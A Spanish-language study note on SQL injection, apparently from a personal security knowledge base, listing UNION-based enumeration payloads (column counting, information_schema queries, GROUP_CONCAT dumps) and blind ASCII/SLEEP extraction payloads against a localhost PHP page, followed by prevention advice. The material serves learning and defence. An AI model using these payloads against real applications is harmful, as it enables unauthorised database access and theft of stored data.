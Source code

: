 ___

- Tags: #sqli #sql #mysql #owasp-top-10 #explotación 

___
# Introducción

Las **Inyecciones SQL** son una categoría de ataques informáticos que aprovechan las vulnerabilidades en las consultas [[SQL]] de una aplicación para ejecutar comandos no autorizados en una base de datos. Estos ataques son una amenaza significativa y requieren una comprensión sólida de cómo se estructuran las consultas [[SQL]] y cómo se pueden manipular para obtener información no autorizada o incluso realizar acciones maliciosas.

## Principios Básicos

1. **Acceso no Autorizado:** Las **inyecciones SQL** pueden permitir a un atacante acceder a información sensible o realizar acciones no permitidas al introducir comandos [[SQL]] maliciosos en los campos de entrada de una aplicación.
    
2. **Estructura de una Inyección SQL:** **Las inyecciones SQL** a menudo se realizan mediante la manipulación de las consultas [[SQL]] que la aplicación envía a la base de datos. Esto se logra agregando instrucciones [[SQL]] maliciosas en los campos de entrada.

____
# Inyecciones basicas:


```
https://localhost/archivo.php?id=3' ORDER BY 1 -- -
```

Con esto sabrás cuántas columnas tiene la tabla donde se está haciendo la consulta; debes empezar desde un número grande hasta un número pequeño hasta que proporcione algún dato.

```
https://localhost/archivo.php?id=valor_grande' UNION SELECT 4 -- -
```

Con esto puedes añadir una nueva fila a la columna o columnas que se están consultando; en este caso, se está añadiendo el 4 y para verlo en pantalla debes modificar el id por un id que no exista.

```
https://localhost/archivo.php?id=valor_grande' UNION SELECT DATABASE() -- -
```

Basándonos en el anterior concepto, así podemos saber el nombre de la base de datos donde está la tabla.

```
https://localhost/archivo.php?id=valor_grande' UNION SELECT SCHEMA_NAME FROM information_schema.schemata LIMIT 0,1 -- -
```

Con esto podemos saber todas las bases de datos que se encuentran, y con el `LIMIT` no muestra la base de datos, pero dependiendo del número que hayamos puesto.

```
https://localhost/archivo.php?id=valor_grande' UNION SELECT GROUP_CONCAT(SCHEMA_NAME) FROM information_schema.schemata-- -
```

Ahora, gracias al `GROUP_CONCAT()`, puedes concatenar todas las bases de datos y mostrarlas en una misma línea separadas con comas.

```
https://localhost/archivo.php?id=valor_grande' UNION SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE table_schema='bd'-- -
```

Ya enumeradas las bases de datos, podemos listar la tabla de una en específico con esta inyección.

```
https://localhost/archivo.php?id=valor_grande' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema='bd' AND table_name='tabla'-- -
```

Con esta inyección ahora podrás saber las columnas de una tabla en específico.

```
https://localhost/archivo.php?id=valor_grande' UNION SELECT GROUP_CONCAT(columna) FROM tabla-- -
```

Con esto ahora puedes ver todos los datos de una columna de una tabla en específico. Si quieres especificar la base de datos, solo tienes que poner `FROM base_de_datos.tabla` y listo.

```
https://localhost/archivo.php?id=valor_grande' UNION SELECT GROUP_CONCAT(columna, delimitador, columna) FROM tabla-- -
```

Así puedes concatenar una columna con otra columna solo colocando un delimitador de preferencia en hexadecimal.

```
https://localhost/archivo.php?id=numero' AND SLEEP(segundos)-- -
```

Sirve para saber si una página es vulnerable a **inyección SQL**.

```bash
curl -s -I -X GET "http://localhost/archivo.php" -G --data-urlencode "id=valor"
```

Con esto puedes enviar parámetros por **GET** sin necesidad de ponerlos en la **URL**.

```
https://localhost/archivo.php/id=valor' OR (SELECT (SELECT ASCII(SUBSTRING(columna,1,1)) FROM tabla WHERE id = 1)=98)
```

Es una inyección para verificar si el valor **ASCII** del primer carácter de la columna especificada en la tabla es igual a 98 (código **ASCII** de la letra 'b').

```
https://localhost/archivo.php/id=valor AND IF(ASCII(SUBSTRING(DATABASE(),1,1))=72, SLEEP(5), 1)
```

Extrae el primer carácter de la base de datos actual y luego verifica si su valor **ASCII** es igual a 72 (que es la letra 'H'). Si es así, induce un retraso de 5 segundos; de lo contrario, devuelve 1.

____
# Prevención y Buenas Prácticas

1. **Validación de Entradas:** Validar y filtrar las entradas de usuario es crucial para prevenir **inyecciones SQL**. Se deben usar parámetros preparados y consultas parametrizadas.
    
2. **Principio de Menor Privilegio:** Asignar permisos mínimos necesarios para las cuentas de bases de datos y limitar el acceso a la información sensible.
    
3. **Actualizaciones y Parches:** Mantener la aplicación y el sistema de gestión de bases de datos actualizados con los últimos parches de seguridad.
    
4. **Registro y Monitorización:** Implementar registros y sistemas de monitorización para identificar posibles intentos de **inyecciones SQL**.
    

La comprensión y aplicación de estas medidas ayudarán a reducir significativamente el riesgo de ataques de **inyección SQL**, fortaleciendo la seguridad de las aplicaciones y sistemas que interactúan con bases de datos.